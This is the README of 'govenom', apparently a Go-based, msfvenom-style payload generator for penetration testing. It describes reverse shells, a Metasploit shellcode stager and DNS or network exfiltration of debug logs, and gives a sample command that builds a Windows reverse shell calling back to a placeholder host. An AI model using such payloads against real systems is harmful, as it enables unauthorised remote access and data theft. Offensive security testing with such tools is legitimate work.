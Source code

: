 <p align="center">
  <h2 align="center"><b>govenom</b></h3>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/build?style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
    <a href="http://pkg.go.dev/github.com/erikgeiser/govenom"><img alt="Go Doc" src="https://img.shields.io/badge/godoc-reference-blue.svg?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms, although currently `govenom` has a
strong focus on Windows as payload target platform.

## Payloads

Currently, three payloads are supportet:

* **rsh:** A simple reverse TCP shell. It selects one of the most
common shells and makes it available via TCP or UDP connection.
* **xrsh:** An extenden robust reverse TCP shell. A simple heuristic
determines the must suitable shell executable, taking shells that
are installed buth not in `$PATH` into account. In contrast to most
other available shells out there, additional info can be sent via
alternative communication channels via the exfiltration mechanism
(see relevant section below). For example, if no shell could be
detected or the connection could not be established due to a
firewall, the corresponding error can be exfiltrated via DNS.
* **stager**: A TCP based shellcode stager that is compatible with
Metasploits `exploits/multi/handler` with a `meterpreter/reverse_tcp`
payload. It first reads a 4 Byte shellcode length and then the
shellcode itself from a TCP connection and executes it. Currently,
this is only available for Windows targets.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections, or maybe one of
the ports you tried. Maybe you expected `powershell` to be present
but only `cmd` is there. The solution to problem is the `govenom`
debug log exfiltration mechanism which can optionally be used with
`xrsh` and `stager` payloads. It lets you configure an arbitrary
amount of exfiltration strategies of the following types:

* **`stdout`/`stderr`:** If you can capture the output of your
payload when it's executed, you can output debug logs via
`stdout/stderr`.

* **DNS:** The most useful exfiltration type because noone blocks
DNS. Messages are encoded and split into parts which can be put
together again by the `govenom` tool `dnslogger` (see section
below).

* **File:** Write the debug information into a file on the target
system. This is for example useful if you can recover files via a
local file inclusion vulnerability.

* **Net (`dial`):** Send the debug log via a TCP or UDP connection that's
different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

* **dnslogger:** The `dnslogger` tool decodes and recombines messages
that were exfiltrated via DNS.

* **pusher:** The `pusher` tool can serve and deliver `meterpreter`
shellcode generated using `msfvenom` to the `govenom` stager payload.

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
go run ./govenom.go payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exil dns:example.com,stdout,dial:udp:127.0.0.1:1234
    -o revsh.exe

# run the 
go run ./govenom.go tool dnslogger
```

**Note:** `go` has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## Plans

* Connection encryption
* Reverse shell listener like `ncat` with loggin capabilities
* Embedding payload code into the `govenom` binary